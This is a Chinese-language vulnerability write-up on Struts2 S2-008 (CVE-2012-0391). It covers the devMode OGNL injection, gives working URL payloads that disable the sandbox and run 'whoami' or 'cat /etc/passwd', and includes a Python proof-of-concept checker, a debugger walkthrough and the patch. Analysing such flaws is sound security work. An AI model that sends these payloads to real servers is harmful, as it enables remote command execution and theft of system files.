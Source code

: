 ```yaml
---
layout: post
title: "S2-008"
subtitle: 'S2-008漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-008漏洞,又名CVE-2012-0391漏洞.

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-008)

#### 漏洞成因

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.17

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29
```

#### 读取文件

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_008_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-008漏洞,又名CVE-2012-0391漏洞',
            'description': 'Struts2 S2-008漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.17',
            'date': '2012-01-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/devmode.action'
        self.capta = self.get_capta() 
        self.check_payload =  '?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%27%29.getInputStream%28%29%29%29'''
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.check_payload
            check_res = requests.get(check_url)
            if check_res.status_code == 200 and len(check_res.text) < 50 and self.capta in check_res.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_008 = S2_008_BaseVerify('http://localhost:8080/s2_008_war_exploded/')
    S2_008.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](img/S2-008/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.Struts2框架存在一个devmode模式,方便开发人员调试程序,但是默认devmode是不开启的,如果想要使用,需要手动修改参数.可以将struts.properties中的devmode设置为true,或是在struts.xml中添加如下代码.

> <constant name="struts.devMode" value="true" /> 

![debug](img/S2-008/images/debug.png)

&emsp;&emsp;&emsp;&emsp;2.问题出现在/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/interceptor/debugging/DebuggingInterceptor.class:87函数内,在95行打断点,获取get中的debug参数的值command.

![type](img/S2-008/images/type.png)

&emsp;&emsp;&emsp;&emsp;3.继续往下执行代码,通过if判断语句进入command分支,取得command参数的值

![command](img/S2-008/images/command.png)

![get_command](img/S2-008/images/get_command.png)

&emsp;&emsp;&emsp;&emsp;4.继续往下执行,通过statck.findValue即可执行OGNL表达式,造成代码执行.

![final](img/S2-008/images/final.png)

## 漏洞修复

> 加强了对于参数的正则匹配

```java

ParametersInterceptor.class

private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+";

CookieInterceptor.class

private static final String ACCEPTED_PATTERN = "[a-zA-Z0-9\\.\\]\\[_'\\s]+";
```

## 总结

> struts2漏洞的精髓在ongl表达式......,自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://blog.csdn.net/Fly_hps/article/details/85001659

> http://drops.xmd5.com/static/drops/papers-902.html

